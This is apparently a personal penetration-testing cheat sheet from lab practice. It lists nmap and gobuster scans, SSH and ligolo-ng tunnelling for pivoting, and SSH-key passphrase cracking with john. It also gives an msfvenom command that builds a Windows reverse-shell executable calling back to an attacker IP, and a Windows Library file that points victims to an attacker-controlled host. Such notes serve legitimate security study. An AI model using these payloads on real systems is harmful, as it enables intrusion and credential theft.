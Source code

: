 # Tools
___!!MAKE SURE TO HAVE ENOUGH RESOURCES..!!___
## nmap
`sudo nmap -sC -sV -T4 -v -p- -oA 192.168.233.227 192.168.233.227` Full TCP scan with logging \
`sudo nmap -sU -T4 -v -p- 192.168.233.153 -oA nmap/192.168.233.153-UDP` Full UDP SCAN with logging

## gobuster
`gobuster dir -u http://192.168.233.153 -w /usr/share/wordlists/dirb/big.txt -t 5 --output gobuster/192.168.233.153` Gobuster dir scan

## curl
`curl`
- `-H "host: test.com"` add header, for testing vhosts\
- `--insecure` ignore certificate issues

## ssh
`ssh`
- `-R 1337:192.168.1.1:3389` Create listening port on the server forwarding to IP:3389\
- `-L 1337:192.168.1.1:3389` Create listening prot lon the local client forwarding to IP:3389

## SWAKS
Swiss Army Knife for SMTP\
- `--to mail@mail.com` Send to address
- `--server` Server to use

## Chisel
`chisel`
- `client` for client mode
- `server` for server mode
Note: issues with starting chisel client when using the pre-compiled version from Kali. Dowloaded release from github does work.\

## ExploitDB
`searchsploit -m XXXXX ` to "mirror" a vulnerability from ExploitDB

## msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.186 LPORT=1337 -f exe > rev.exe ` Create windows reverse shell executable

## ligolo-ng
releases for proxy and agent on Github: https://github.com/nicocha30/ligolo-ng

__Start proxy:__\
`sudo ip tuntap add user kali mode tun ligolo`\
`sudo ip link set ligolo up`

`./proxy -selfcert`

__Start ligolo agent:__\
`.\ligolo-agent.exe -connect xxx.xxx.xxx.xxx:11601 -ignore-cert`

__Setup tunnel over proxy:__\
`session` Select session\
`ifconfig` -- Show ip info\
`sudo ip route add 192.168.0.0/24 dev ligolo` Create route\
`start` Start tunnel\

--Network is now reachable through proxy--

## Other usefull resources:
https://crackstation.net/


## WIndows Library file exploit
**NOTE:** After executing windows **optimizes the file** which could make it **unusable** on another machine.
```xml
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.177</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

## Cracking SSH keyphrase
`ssh2john sample.key > sample.hash`
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
